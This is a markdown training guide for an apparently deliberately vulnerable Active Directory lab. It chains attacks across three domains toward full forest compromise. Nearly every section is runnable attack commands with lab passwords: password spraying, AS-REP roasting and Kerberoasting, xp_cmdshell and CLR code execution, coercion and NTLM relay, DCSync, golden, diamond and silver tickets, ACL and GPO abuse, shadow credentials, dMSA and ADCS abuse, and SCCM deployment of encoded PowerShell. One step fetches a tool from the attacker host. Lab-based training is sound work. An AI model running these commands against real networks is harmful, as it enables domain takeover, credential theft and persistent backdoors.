

# CADRE — Attack Campaigns

**START HERE.** These campaigns teach the *process* of attacking an Active Directory environment — not isolated command pasting. Each campaign chains techniques together organically. Every credential is *earned* from the previous step. Alternative paths are shown inline so you can vary your approach.



---

## Campaign A — From the Network (The Main Event)

**Start:** Kali on 192.168.77.0/24 — zero domain credentials, zero domain access.
**End:** All 3 krbtgt hashes — entire forest (cadre.local + child.cadre.local + range.local) completely compromised.
**MITRE stages covered:** Reconnaissance → Initial Access → Execution → Discovery → Lateral Movement → Privilege Escalation → Credential Access → Persistence → Collection.

### Phase 1 — Reconnaissance (T1595)

You have Kali with network access to 192.168.77.0/24. Nothing else.

```bash
# Null session enumeration against dc02 (RestrictAnonymous=0 — SAMR null bind allowed)
enum4linux -U 192.168.77.11
rpcclient -U "" -N 192.168.77.11 -c "enumdomusers; enumdomgroups"

# DNS zone walk to discover infrastructure
dnsrecon -d child.cadre.local -n 192.168.77.11

# Build a user list from the null-session enumeration above → users.txt
# (Server 2025 disables anonymous LDAP, so BloodHound has to wait for Phase 2 creds.)

# Optional password spray with common guesses (NOT the real leetspeak creds —
# those are earned in Phase 2). Illustrates the technique against the harvested user list.
kerbrute passwordspray -d child.cadre.local users.txt 'Welcome2026!'
kerbrute passwordspray -d cadre.local   users.txt 'P@ssw0rd1'
```

**What you learn:** Domain user lists, group structures, machine names (dc01/dc02/dc03/mbr01/mbr02/linux01), trust topology between 3 domains.
**WT# covered:** 028 (null session), 031 (password spray).
**Note:** BloodHound collection is deferred to Phase 4 — it needs an authenticated bind, which you don't have until Phase 2 earns `intern_blue`.

### Phase 2 — Initial Access (T1078)

AS-REP Roasting requires no credentials — just user list from Phase 1. The child domain has a target with preauth disabled.

```bash
# intern_blue has DONT_REQUIRE_PREAUTH set — discovered via BloodHound
echo intern_blue > /tmp/users.txt
impacket-GetNPUsers child.cadre.local/ -dc-ip 192.168.77.11 -no-pass -usersfile /tmp/users.txt

# Crack the AS-REP hash offline
hashcat -m 18200 asrep_hash.txt /usr/share/wordlists/rockyou.txt
# Password: 1nt3rn_Blu3!
```

**What you earn:** `1nt3rn_Blu3!` — low-priv credential in child.cadre.local.
**WT# covered:** 003 (AS-REP Roast).

### Phase 2.5 — Credential Access (T1558.003 — Kerberoast)

`intern_blue` is now an authenticated child-domain user. Any authenticated user can request service tickets — Kerberoast the child MSSQL service account, which holds the SPN `MSSQLSvc/mbr01.child.cadre.local:1433`.

```bash
# Kerberoast as intern_blue — request TGS for all SPN-bearing accounts
impacket-GetUserSPNs child.cadre.local/intern_blue:'1nt3rn_Blu3!' \
  -dc-ip 192.168.77.11 -request -outputfile child_tgs.txt

# Crack svc_mssql's TGS offline
hashcat -m 13100 child_tgs.txt /usr/share/wordlists/rockyou.txt
# Password: s3rv1c3_MSSQL!
```

**What you earn:** `s3rv1c3_MSSQL!` — the MSSQL service account in child.cadre.local. This is the SQL Server service identity → already a sysadmin on the mbr01 instance.
**WT# covered:** WT#002 (AES Kerberoast).

### Phase 3 — Execution (T1059)

With `svc_mssql` earned, connect to mbr01's SQL Server. The service account is already sysadmin — no impersonation needed. xp_cmdshell is enabled.

```bash
# Connect to MSSQL on mbr01 as svc_mssql (the SQL service identity = sysadmin)
impacket-mssqlclient child.cadre.local/svc_mssql:'s3rv1c3_MSSQL!'@192.168.77.22 -windows-auth

# Confirm sysadmin
SELECT IS_SRVROLEMEMBER('sysadmin');
-- Returns: 1

# Enable xp_cmdshell and execute commands
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell 'whoami';
-- Returns: NT SERVICE\MSSQLSERVER (or the SQL service context)
```

**What you earn:** sysadmin → OS command execution on mbr01 as the SQL service code context.
**WT# covered:** 041 (xp_cmdshell).

**Alternative — Impersonation chain (WT#043):**
If you instead earn `analyst_t1` (who holds an `IMPERSONATE sa` grant), you reach sysadmin without Kerberoasting svc_mssql:
```sql
-- As analyst_t1: check impersonable principals, then become sa
SELECT b.name FROM sys.login_token a
  JOIN sys.server_principals b ON a.sid = b.sid WHERE a.usage = 'IMPERSONATE';
EXECUTE AS LOGIN = 'sa';
SELECT SYSTEM_USER, IS_SRVROLEMEMBER('sysadmin');   -- sa, 1
```

**Alternative — CLR Assembly (WT#042):**
Instead of xp_cmdshell, create a malicious CLR assembly to execute code:
```sql
-- Create CLR assembly from DLL byte stream
CREATE ASSEMBLY CADRE_EXEC FROM 0x4D5A... WITH PERMISSION_SET = UNSAFE;
CREATE PROCEDURE dbo.ExecCmd @cmd NVARCHAR(4000) AS EXTERNAL NAME CADRE_EXEC.Stub.Hello;
EXEC dbo.ExecCmd 'powershell -enc <encoded_command>';
```
WT#042 is configured on mbr02 (CLR enabled, TRUSTWORTHY ON, strict security=0).

### Phase 4 — Discovery (T1087)

From your code exec context on mbr01, collect BloodHound data to understand the full attack surface.

First, serve SharpHound from Kali (the provisioning VM is an Ansible runner, not a web server):
```bash
# On Kali (.41): host the collector
cd /opt/tools && python3 -m http.server 8080
```

```powershell
# From PowerShell on mbr01 as the SQL service context:
Invoke-WebRequest -Uri "http://192.168.77.41:8080/SharpHound.exe" -OutFile "C:\Windows\Temp\SharpHound.exe"
C:\Windows\Temp\SharpHound.exe --CollectionMethod All --Domain child.cadre.local

# OR collect remotely from Kali with the earned creds (no upload needed):
#   bloodhound-python -d child.cadre.local -u svc_mssql -p 's3rv1c3_MSSQL!' -ns 192.168.77.11 -c All

# Load results into BloodHound GUI on Kali
# Key findings to query:
```

```cypher
// BloodHound Cypher queries to run:
// 1. Find computers with unconstrained delegation
MATCH (c:Computer {unconstraineddelegation:true}) RETURN c

// 2. Find users with ForceChangePassword rights
MATCH p=(u:User)-[r:ForceChangePassword]->(t:User) RETURN p

// 3. Find GenericAll rights
MATCH p=(u:User)-[r:GenericAll]->(t:Group) RETURN p

// 4. Find paths to Domain Admins
MATCH p=shortestPath((u:User)-[r*1..]->(g:Group {name:"DOMAIN ADMINS@CHILD.CADRE.LOCAL"})) RETURN p
```

**What you learn:** mbr01$ has `TrustedForDelegation = True` (unconstrained delegation). Multiple ACL abuse paths exist. Links to other domains via trusts.

### Phase 5 — Lateral Movement (T1021)

mbr01$ has unconstrained delegation. Coerce the domain controller to authenticate to mbr01, capturing its TGT.

**On mbr01 (SYSTEM) — set up TGT monitor:**
```powershell
Rubeus.exe monitor /interval:5 /nowrap /targetuser:DC02$
```

**From Kali — coerce dc02 to connect to mbr01:**
```bash
coercer coerce -l 192.168.77.22 -t 192.168.77.11 -d child.cadre.local \
  -u svc_mssql -p 's3rv1c3_MSSQL!' --spoolsample
```

When dc02$ connects to mbr01's print spooler, Rubeus captures its TGT:
```
[*] 2026-05-23 14:30:22 -  TGT received for user 'DC02$@CHILD.CADRE.LOCAL'
      base64ticket: doIF2jCCBdag...
```

**What you earn:** dc02$ machine account TGT — domain controller credentials for child.cadre.local.
**WT# covered:** 004 (unconstrained delegation), 017 (PrinterBug).

**Alternative — DFSCoerce (WT#019):**
```bash
coercer coerce -l 192.168.77.22 -t 192.168.77.11 -d child.cadre.local \
  -u svc_mssql -p 's3rv1c3_MSSQL!' --dfscoerce
```

**Alternative — ShadowCoerce (WT#020):**
```bash
coercer coerce -l 192.168.77.22 -t 192.168.77.11 -d child.cadre.local \
  -u svc_mssql -p 's3rv1c3_MSSQL!' --shadowcoerce
```

**Alternative — RBCD (WT#007) instead of unconstrained delegation:**
If you find GenericWrite on a computer object instead, set up RBCD:
```bash
# Create a fake computer account
bloodyAD --host dc02 -d child.cadre.local -u svc_mssql -p 's3rv1c3_MSSQL!' \
  add computer "FakePC$" "Password123!"

# Set RBCD on target
bloodyAD --host dc02 -d child.cadre.local -u svc_mssql -p 's3rv1c3_MSSQL!' \
  set rbcd "CN=mbr01,CN=Computers,DC=child,DC=cadre,DC=local" \
  "CN=FakePC,CN=Computers,DC=child,DC=cadre,DC=local"

# S4U2Proxy as any user via impacket
impacket-getST -spn cifs/mbr01.child.cadre.local -impersonate Administrator \
  -dc-ip 192.168.77.11 child.cadre.local/FakePC$:'Password123!'
```

**Alternative lateral methods from SYSTEM on mbr01:**
```powershell
# WMI (WT#009 idea)
wmic /node:dc02.child.cadre.local /user:CHILD\svc_mssql process call create "cmd /c whoami"

# WinRM (WT#010 idea)
New-PSSession -ComputerName dc02.child.cadre.local -Credential CHILD\svc_mssql

# PsExec (WT#011 idea)
psexec \\dc02.child.cadre.local -u CHILD\svc_mssql -p s3rv1c3_MSSQL! cmd

# DCOM (WT#012 idea)
$dcom = [Activator]::CreateInstance([Type]::GetTypeFromProgID("MMC20.Application.1","dc02.child.cadre.local"))
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c whoami","7")
```

**Alternative — NTLM Relay to LDAP (WT#021):**
Combine coercion with relay instead of capturing TGTs:
```bash
# Terminal 1: ntlmrelayx with shadow credentials
impacket-ntlmrelayx -t ldap://dc01.cadre.local --shadow-credentials \
  --escalate-user ops_redcell -smb2support

# Terminal 2: coercion
coercer coerce -l 192.168.77.41 -t 192.168.77.10 -d cadre.local \
  -u analyst_dfir -p 'An@lyst_DF1R!' --spoolsample
```

**Alternative — NTLM Relay to SMB (WT#022):**
```bash
# Terminal 1: relay to mbr02 (SMB signing disabled)
impacket-ntlmrelayx -t smb://mbr02.range.local -smb2support

# Terminal 2: coercion
coercer coerce -l 192.168.77.41 -t 192.168.77.23 -d range.local \
  -u analyst_osint -p '0S1NT_An@lyst!' --spoolsample
```

### Phase 6 — Privilege Escalation (T1068)

With dc02$'s TGT, DCSync the child domain to extract all password hashes.

```bash
# Export the captured TGT from Rubeus to a .ccache file on Kali
# Then inject into Kerberos cache
export KRB5CCNAME=/tmp/dc02.ccache

# DCSync child domain using kerberos authentication (-k)
impacket-secretsdump -just-dc child.cadre.local/ -dc-ip 192.168.77.11 -k
```

**What you earn:** Child domain krbtgt hash + all user and machine account hashes → **Domain Admin** in child.cadre.local.
**WT# covered:** 009 (DCSync).

### Phase 7 — Credential Access + Persistence (T1003, T1098)

The child domain (child.cadre.local) has a bidirectional transitive parent-child trust with cadre.local (root domain). Exploit this via SID History to inject the Enterprise Admins group SID into a forged ticket.

```bash
# Step 1: Get root domain's Enterprise Admins SID.
# Use the child Administrator you just earned via DCSync (child krbtgt → forge or just use
# the child Administrator hash with -hashes). The parent-child trust lets you query cadre.local.
impacket-lookupsid -hashes :<child_admin_nthash> cadre.local/Administrator@192.168.77.10 2>/dev/null | grep "Enterprise"
# Returns: cadre.local\Enterprise Admins (S-1-5-21-XXXXXXXXXX-XXXXXXXXXX-XXXXXXXXXX-519)

# Step 2: Forge a ticket with ExtraSids using the child krbtgt hash
impacket-ticketer -nthash <child_krbtgt_hash> \
  -domain child.cadre.local \
  -domain-sid <child_domain_sid> \
  -extra-sid <root_EA_SID> \
  -domain child.cadre.local Administrator

# Step 3: Authenticate to dc01 as Enterprise Admin
export KRB5CCNAME=Administrator.ccache
impacket-psexec cadre.local/Administrator@192.168.77.10 -k -no-pass

# Step 4: DCSync root domain
impacket-secretsdump -just-dc cadre.local/ -dc-ip 192.168.77.10 -k
```

**What you earn:** Root domain DA + Enterprise Admin → full compromise of cadre.local.
**WT# covered:** 010 (golden ticket via SID History).

**Alternative — Diamond Ticket (WT#012) for stealth:**
Instead of forging a golden ticket, modify a legitimate TGT:
```powershell
# On a Windows machine with Rubeus:
Rubeus.exe diamond /tgtdeleg /dc:dc01.cadre.local /ticketuser:Administrator \
  /ticketuserid:500 /groups:512 /krbkey:<krbtgt_aes256_hash>
```
Diamond tickets are harder to detect because they modify a real TGT rather than creating one from scratch.

**Alternative — Silver Ticket (WT#011) for targeted access:**
```bash
# Forge a service-specific ticket (does not touch DC)
impacket-ticketer -nthash <service_account_hash> \
  -domain-sid <domain_sid> -domain cadre.local \
  -spn cifs/dc01.cadre.local Administrator
```

### Phase 8 — Collection (T1074)

cadre.local has a bidirectional forest trust with range.local. From the root DA position, enumerate and compromise the external forest.

```bash
# Step 1: Cross-forest Kerberoast
# From cadre.local DA position, request TGS from range.local
impacket-GetUserSPNs cadre.local/chief_command:'C0mm@nd_Ch1ef!' \
  -target-domain range.local -dc-ip 192.168.77.12 -request

# Step 2: Crack the svc_sccm hash (range.local accounts are AES-only → mode 19700)
hashcat -m 19700 svc_sccm_tgs.txt /usr/share/wordlists/rockyou.txt
# Password: s3rv1c3_SCCM!

# Step 3: With svc_sccm, read the planted bait file on the vault share.
# (svc_sccm — or any range.local user — can read \\mbr02\vault.)
smbclient //192.168.77.23/vault -U range.local/svc_sccm%'s3rv1c3_SCCM!' -c "get naa-rotation-notice.txt"
cat naa-rotation-notice.txt
# Reveals: "Network Access Account RANGE\svc_naa : N@A_s3rv1c3!  (Domain Admin in range.local)"

# Step 4: svc_naa is Domain Admin in range.local — authenticate to dc03 and DCSync
impacket-psexec range.local/svc_naa:'N@A_s3rv1c3!'@192.168.77.23
impacket-secretsdump -just-dc range.local/svc_naa:'N@A_s3rv1c3!'@192.168.77.12
```

**What you earn:** External domain krbtgt + all hashes → **all 3 domains fully compromised**.
**WT# covered:** 002 (AES Kerberoast from range.local), 033 (cross-forest Kerberoast), 034 (SCCM NAA extraction).
**Design note:** The svc_sccm → svc_naa bridge is intentional — `svc_naa`'s password is planted in `naa-rotation-notice.txt` on the vault share (a deliberate bait file), and svc_naa is over-privileged (DA in range.local). This models the real-world "credentials in a file share" finding.

**Alternative — AES Kerberoast within range.local (WT#002):**
```bash
# Direct Kerberoast as a range.local user
impacket-GetUserSPNs range.local/analyst_osint:'0S1NT_An@lyst!' \
  -dc-ip 192.168.77.12 -request -outputfile aes_tgs.txt
hashcat -m 19700 aes_tgs.txt /usr/share/wordlists/rockyou.txt
```

**Alternative — Full SCCM escalation chain (WT#035-039):**
With `RANGE\svc_sccm` as SCCM Full Administrator:
```powershell
# PXE boot abuse (WT#035)
SharpSCCM.exe get pxe -s mbr02.range.local

# Client push relay (WT#036)
SharpSCCM.exe client-push -s mbr02.range.local -t 192.168.77.22

# CMPivot abuse (WT#037)
SharpSCCM.exe invoke cmpivot -s mbr02.range.local -q "Registry('HKLM\\SAM\\SAM')"

# Application deployment (WT#038)
SharpSCCM.exe exec -s mbr02.range.local -t all -c "powershell -enc <encoded>"

# Site takeover (WT#039)
# Via SQL: connect to CAD site database on mbr02
```

### Campaign A — Credential Flow

```
Kali (nothing)
  → Phase 1: User lists via null session enum (anonymous SAMR on dc02)
  → Phase 2: intern_blue AS-REP hash → crack → 1nt3rn_Blu3!
  → Phase 2.5: Kerberoast svc_mssql as intern_blue → crack → s3rv1c3_MSSQL!
  → Phase 3: svc_mssql is SQL sysadmin → xp_cmdshell → code exec on mbr01
  → Phase 5: Coerce dc02 → capture dc02$ TGT via unconstrained delegation
  → Phase 6: DCSync child domain → child krbtgt + child DA
  → Phase 7: SID History (parent-child trust, filtering off) → Enterprise Admin → DCSync root → root DA
  → Phase 8: Cross-forest Kerberoast svc_sccm → read vault bait → svc_naa (DA) → DCSync range → all 3 domains
```

**Every credential is earned — zero assumed.** The chain starts from a true zero-knowledge position on Kali: null-session enumeration builds the user list, AS-REP roasting (no creds needed) cracks the first password, and every subsequent credential derives from the previous step.

---

## Campaign B — Shadow in the Root (cadre.local)

**Start:** Domain user in cadre.local with low-priv credentials (e.g., `analyst_dfir` / `An@lyst_DF1R!`). If you completed Campaign A Phase 7, you have DA — but this campaign starts as a normal user and escalates organically.
**End:** Full persistence on root domain — every ACL chain executed, multiple backdoors planted.

### Phase 1 — Reconnaissance (BloodHound + LDAP)

From your cadre.local user, enumerate the attack surface to discover ACL abuse paths.

```bash
# BloodHound collector
bloodhound-python -d cadre.local -u analyst_dfir -p 'An@lyst_DF1R!' \
  -ns 192.168.77.10 -c All

# Manual LDAP enumeration to find ACEs
ldapsearch -x -H ldap://192.168.77.10 -D "cadre\analyst_dfir" \
  -w 'An@lyst_DF1R!' -b "DC=cadre,DC=local" \
  "(objectClass=*)"
```

**BloodHound Cypher queries to find escalation paths:**
```cypher
// 1. Find all ACL edges from current user
MATCH p=(u:User {name:"ANALYST_DFIR@CADRE.LOCAL"})-[r]->(target) RETURN p

// 2. Find ForceChangePassword paths to high-value targets
MATCH p=(u:User)-[r:ForceChangePassword]->(t:User) WHERE t.highvalue=true RETURN p

// 3. Find all paths to Domain Admins
MATCH p=shortestPath((u:User)-[r*1..]->(g:Group {name:"DOMAIN ADMINS@CADRE.LOCAL"})) RETURN p

// 4. Find users who can write to GPOs
MATCH p=(u:User)-[r]->(g:GPO) RETURN p
```

**What you learn:** Multiple ACL abuse chains:
- `hunter_dfir` → ForceChangePassword → `chief_command` → DA
- `lead_engineering` → WriteDacl → `Red-Cadre` group
- `analyst_cloud` → GenericWrite → `Agentic-Cadre` group
- `analyst_dfir` → GenericAll → `OU=Command` → `chief_command`
- `eng_cloud` → ReadGMSAPassword → `gmsaTools$`
- `analyst_cloud` → GpoEditDeleteModifySecurity → `Vulnerable-GPO`

### Phase 2 — Escalation via ACL Abuse

Multiple paths from low-priv to Domain Admin. Each path works independently.

**Path A — ForceChangePassword (WT#015):**
The fastest route to DA. `hunter_dfir` can reset `chief_command`'s password.

```bash
# From Kali with bloodyAD:
bloodyAD --host 192.168.77.10 -d cadre.local -u hunter_dfir -p 'DF1R_Hunt3r!' \
  set password "CN=chief_command,OU=Command,DC=cadre,DC=local" 'Pwn3d_DA!'

# Verify by connecting as DA
impacket-psexec cadre.local/chief_command:'Pwn3d_DA!'@192.168.77.10
# You now have Domain Admin
```

**What you earn:** Domain Admin in cadre.local immediately.
**WT# covered:** 015.

**Path B — WriteDacl to Self-Escalate (WT#013):**
`lead_engineering` has WriteDacl on the `Red-Cadre` group. Grant yourself GenericAll, then add yourself as a member.

```bash
# Grant GenericAll to self on Red-Cadre group
bloodyAD --host 192.168.77.10 -d cadre.local -u lead_engineering -p 'Eng_L3ad!' \
  add genericall "CN=Red-Cadre,OU=RedCell,DC=cadre,DC=local" \
  "cadre.local\lead_engineering"

# Add self to Red-Cadre
bloodyAD --host 192.168.77.10 -d cadre.local -u lead_engineering -p 'Eng_L3ad!' \
  add group-member "CN=Red-Cadre,OU=RedCell,DC=cadre,DC=local" \
  "lead_engineering"
```

**Alternative — GenericWrite to Shadow Credentials (WT#014):**
`analyst_cloud` has GenericWrite on the `Agentic-Cadre` group. Add Shadow Credentials to any group member.

```bash
# List Agentic-Cadre members
bloodyAD --host 192.168.77.10 -d cadre.local -u analyst_cloud -p 'Cl0ud_An@lyst!' \
  get object "CN=Agentic-Cadre,OU=Agentic,DC=cadre,DC=local" --attr member

# Target eng_agentic — add Shadow Credential via Whisker/PyWhisker
certipy-ad shadow auto -u "analyst_cloud@cadre.local" -p 'Cl0ud_An@lyst!' \
  -account eng_agentic -dc-ip 192.168.77.10
```

**Alternative — GenericAll on OU (WT#016):**
`analyst_dfir` has GenericAll on `OU=Command`. This inherits to all objects in the OU, including `chief_command`.

```bash
# Reset chief_command's password via OU-level GenericAll
bloodyAD --host 192.168.77.10 -d cadre.local -u analyst_dfir -p 'An@lyst_DF1R!' \
  set password "CN=chief_command,OU=Command,DC=cadre,DC=local" 'Pwn3d_DA!'
```

### Phase 3 — GPO Abuse (WT#023)

`analyst_cloud` has `GpoEditDeleteModifySecurity` on `Vulnerable-GPO`, which is linked to `OU=Command`. Modify the GPO to execute code as `chief_command`.

```bash
# Step 1: Get the GPO's unique ID from the CN
# Look for GPO name "Vulnerable-GPO" in the Policies container
ldapsearch -x -H ldap://192.168.77.10 -D "cadre\analyst_cloud" \
  -w 'Cl0ud_An@lyst!' -b "CN=Policies,CN=System,DC=cadre,DC=local" \
  "(name=Vulnerable-GPO)" dn

# Step 2: Add an immediate scheduled task via the GPO
# Use bloodyAD's gpo-task function
bloodyAD --host 192.168.77.10 -d cadre.local -u analyst_cloud -p 'Cl0ud_An@lyst!' \
  add gpo-task -n "Vulnerable-GPO" -t "Immediate" \
  -c "powershell.exe -enc <encoded_command_to_add_user_to_DA>"

# Step 3: Trigger the GPO update on dc01
# The GPO will apply to all users in OU=Command on next refresh
gpupdate /target:computer /force
```

**What you earn:** Code execution as `chief_command` (who is in OU=Command) → Domain Admin escalation.
**WT# covered:** 023.

### Phase 4 — Service Account Attacks

Extract credentials from managed service accounts and abuse unique misconfigurations.

**gMSA Extraction (WT#024):**
`eng_cloud` has `ReadGMSAPassword` on `gmsaTools$`.

```bash
# Method 1: bloodyAD
bloodyAD --host 192.168.77.10 -d cadre.local -u eng_cloud -p 'Cl0ud_Eng!' \
  get object 'gmsaTools$' --attr msDS-ManagedPassword

# Method 2: DSInternals (PowerShell on Windows)
$gmsa = Get-ADServiceAccount gmsaTools$ -Properties msDS-ManagedPassword
$pw = ConvertFrom-ADManagedPasswordBlob $gmsa.'msDS-ManagedPassword'
# Use the credential to access services running as gmsaTools$
```

**SPN Jacking — CVE-2026-25177 (WT#027):**
`analyst_cloud` has `Validated-SPN` self-write permission. Register an SPN using Unicode homoglyph characters to intercept TGS requests.

```bash
# Register a homoglyph SPN (Cyrillic 'а' = U+0430 replaces Latin 'a')
bloodyAD --host 192.168.77.10 -d cadre.local -u analyst_cloud -p 'Cl0ud_An@lyst!' \
  set object "CN=analyst_cloud,OU=Cloud,DC=cadre,DC=local" \
  servicePrincipalName -v "MSSQLSvc/mbr01.child.cаdre.locаl:1433"

# The SPN looks identical to the legitimate one but routes to analyst_cloud
# Request TGS for the legitimate SPN → you get it instead of the real service
```

**Shadow Credentials (WT#008):**
`ops_redcell` has GenericWrite on `dc01$`. Add a KeyCredentialLink to obtain the DC's machine account hash.

```bash
# Add KeyCredentialLink to dc01$
certipy-ad shadow auto -u "ops_redcell@cadre.local" -p 'R3dC3ll_0ps!' \
  -account dc01$ -dc-ip 192.168.77.10

# Authenticate as dc01$
certipy-ad auth -pfx dc01.pfx -dc-ip 192.168.77.10 -domain cadre.local \
  -username dc01$ -ldap-shell
# In LDAP shell: DCSync as dc01$
```

### Phase 5 — Persistence (WT#025, WT#010-012)

After achieving DA, plant backdoors that survive password changes.

**AdminSDHolder Persistence (WT#025):**
The AdminSDHolder container propagates its ACL to all "protected" groups (Domain Admins, Enterprise Admins, etc.) every 60 minutes. Add GenericAll for your attacker account — it will be pushed to all DA groups automatically.

```bash
# Add GenericAll on AdminSDHolder for analyst_dfir
bloodyAD --host 192.168.77.10 -d cadre.local -u chief_command -p 'C0mm@nd_Ch1ef!' \
  add genericall "CN=AdminSDHolder,CN=System,DC=cadre,DC=local" \
  "cadre.local\analyst_dfir"

# Wait up to 60 min for SDPROP propagation
# After propagation: analyst_dfir has DA-level rights via AdminSDHolder inheritance
```

**Golden Ticket (WT#010):**
```bash
# Forge a 10-year TGT with the krbtgt hash
impacket-ticketer -nthash <krbtgt_hash> -domain-sid <domain_sid> \
  -domain cadre.local Administrator
```

**Alternative — ESC10 (WT#058):**
The only working ADCS ESC attack. Weak certificate mapping registry settings are configured on all 3 DCs.

```bash
# Enroll certificate with SAN = target DA user
certipy-ad req -ca cadre-CA -template User -upn chief_command@cadre.local \
  -u analyst_dfir@cadre.local -p 'An@lyst_DF1R!' -dc-ip 192.168.77.10

# Authenticate as chief_command using the certificate
certipy-ad auth -pfx chief_command.pfx -dc-ip 192.168.77.10 -domain cadre.local \
  -username chief_command
```

### Campaign B — Coverage Summary

| Phase | WT# | Alternative Paths |
|:-----:|:---:|:-----------------:|
| 1 — Recon | — | — |
| 2 — ACL Escalation | 015 | 013, 014, 016 |
| 3 — GPO Abuse | 023 | — |
| 4 — Service Accounts | 024, 027, 008 | — |
| 5 — Persistence | 025 | 010, 011, 012, 058 |
| **Total** | **7** | **6** |

---

## Campaign C — From the Edge (range.local + SCCM)

**Start:** Access to range.local domain (obtained from Campaign A Phase 8, or start fresh as `RANGE\analyst_osint` / `0S1NT_An@lyst!`).
**End:** External domain DA + full SCCM hierarchy control — every machine in range.local can be compromised.

### Phase 1 — AES Kerberoast (WT#002, WT#033)

Range.local runs on dc03 (Server 2025 with AES-only Kerberos). Start by harvesting service account hashes.

```bash
# Direct Kerberoast as a range.local user
impacket-GetUserSPNs range.local/analyst_osint:'0S1NT_An@lyst!' \
  -dc-ip 192.168.77.12 -request -outputfile aes_tgs.txt

# Check which SPNs are returned
# Expected: HTTP/mbr02.range.local (svc_sccm), MSSQLSvc/mbr02.range.local:1433 (svc_mssql)

# Crack the AES256 hash
hashcat -m 19700 aes_tgs.txt /usr/share/wordlists/rockyou.txt
# svc_sccm password: s3rv1c3_SCCM!
```

**What you earn:** `svc_sccm` password (`s3rv1c3_SCCM!`) — a domain user with constrained delegation configured and SCCM Full Administrator rights.
**WT# covered:** 002 (AES Kerberoast).

**Alternative — Cross-forest Kerberoast (WT#033):**
If you have cadre.local DA from Campaign A, request tickets for range.local from the forest trust:
```bash
impacket-GetUserSPNs cadre.local/chief_command:'C0mm@nd_Ch1ef!' \
  -target-domain range.local -dc-ip 192.168.77.12 -request
```

### Phase 2 — Delegation Abuse (WT#005, WT#006)

`svc_sccm` has constrained delegation configured. Abuse it to gain service tickets as Domain Admin.

**Constrained Delegation w/o Protocol Transition (WT#006):**
`svc_sccm` can delegate to `HTTP/mbr02.range.local` but does NOT have `TrustedToAuthForDelegation` — you need to first authenticate to an intermediate service.

```bash
# Step 1: Use S4U2Proxy with svc_sccm's TGS
impacket-getST -spn HTTP/mbr02.range.local -impersonate Administrator \
  range.local/svc_sccm:'s3rv1c3_SCCM!' -dc-ip 192.168.77.12

# Step 2: Use the service ticket for HTTP access to mbr02
export KRB5CCNAME=Administrator.ccache
impacket-psexec range.local/Administrator@mbr02.range.local -k -no-pass
```

**Constrained Delegation w/ Protocol Transition (WT#005):**
`mbr02$` has `TrustedToAuthForDelegation = true` and can delegate to `cifs/dc03` and `ldap/dc03`.

```bash
# If you have code execution as mbr02$ (e.g., from SCCM):
# On mbr02, use Rubeus for S4U2Self + S4U2Proxy
Rubeus.exe s4u /user:mbr02$ /impersonateuser:Administrator \
  /msdsspn:cifs/dc03.range.local /altservice:ldap /nowrap

# Inject the ticket and DCSync dc03
Rubeus.exe ptt /ticket:<base64_ticket>
impacket-secretsdump -just-dc range.local/ -dc-ip 192.168.77.12 -k
```

**What you earn:** Service ticket as Domain Admin → authentication to dc03 as DA → DCSync.
**WT# covered:** 005, 006.

### Phase 3 — dMSA BadSuccessor (WT#026, CVE-2025-53779)

On Server 2025, `adversary_lead` has GenericWrite on `dmsaPrivService$`. Write the `msDS-ManagedPasswordPreviousId` attribute to inherit dc03$'s password.

```bash
# Step 1: Get dc03$'s SID
impacket-lookupsid range.local/adversary_lead:'Adv3rsary_L3ad!'@192.168.77.12 \
  | grep "DC03$"
# Returns: range.local\DC03$ (S-1-5-21-...-1001)

# Step 2: Write dc03$'s SID as the managed password previous ID
bloodyAD --host 192.168.77.12 -d range.local -u adversary_lead -p 'Adv3rsary_L3ad!' \
  set object "CN=dmsaPrivService$,OU=Adversary,DC=range,DC=local" \
  msDS-ManagedPasswordPreviousId -v "<dc03_SID>"

# Step 3: Extract dc03$'s password via dMSA
# Use DSInternals or gMSADumper
```

**What you earn:** `dc03$` machine account credential → DCSync range.local.
**WT# covered:** 026.

### Phase 4 — SCCM Escalation (WT#034-039)

With `svc_sccm` as SCCM Full Administrator on site `CAD` (mbr02.range.local), escalate to full control over every managed machine.

**NAA Credential Extraction (WT#034):**
```powershell
# On a Windows machine with SCCM console or WMI access:
SharpSCCM.exe get naa -s mbr02.range.local
# Returns: RANGE\svc_naa : N@A_s3rv1c3!
```

`svc_naa` is **Domain Admin** in range.local — this alone gets you DA.

```bash
impacket-psexec range.local/svc_naa:'N@A_s3rv1c3!'@192.168.77.12
# You now have DA in range.local
```

**PXE Boot Abuse (WT#035):**
```powershell
# Extract boot image and task sequence variables (contains credentials)
SharpSCCM.exe get pxe -s mbr02.range.local
PXEThief.exe get-bootimage -p mbr02.range.local
```

**Client Push Relay (WT#036):**
```bash
# Set up relay then trigger client push
impacket-ntlmrelayx -tf targets.txt -smb2support -socks
# On another machine:
SharpSCCM.exe client-push -s mbr02.range.local -t 192.168.77.22
```

**CMPivot Abuse (WT#037):**
```powershell
# Run arbitrary CMPivot queries against all clients
SharpSCCM.exe invoke cmpivot -s mbr02.range.local \
  -q "Process('powershell.exe')" -t all
```

**Application Deployment (WT#038):**
```powershell
# Deploy a malicious application to all SCCM clients
SharpSCCM.exe exec -s mbr02.range.local -t all \
  -c "powershell.exe -enc <encoded_command>"
```

**Site Server Takeover (WT#039):**
```powershell
# As Full Admin, deploy a script to the site server itself
SharpSCCM.exe invoke script -s mbr02.range.local -t mbr02 \
  -c "whoami"
```

